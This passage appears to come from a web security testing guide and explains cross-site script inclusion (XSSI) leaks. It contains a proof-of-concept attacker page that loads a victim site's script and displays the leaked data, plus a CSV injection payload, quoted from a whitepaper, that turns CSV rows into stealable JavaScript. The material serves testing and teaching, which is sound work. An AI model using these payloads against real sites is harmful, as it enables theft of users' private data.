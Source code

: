 The attack site, `attackingwebsite.com`, has an `index.html` with the following code:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

There are other XSSI vulnerabilities that can result in sensitive data leakage either via JavaScript prototype chains or global function calls. For more on these attacks, see [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf).

### 3. Sensitive Data Leakage via CSV with Quotations Theft

To leak data the attacker/tester has to be able to inject JavaScript code into the CSV data. The following example code is an excerpt from Takeshi Terada's [Identifier based XSSI attacks](https://www.mbsd.jp/Whitepaper/xssi.pdf) whitepaper.

```txt
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this example, using the `___` columns as injection points and inserting JavaScript strings in their place has the following result.

```txt
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```
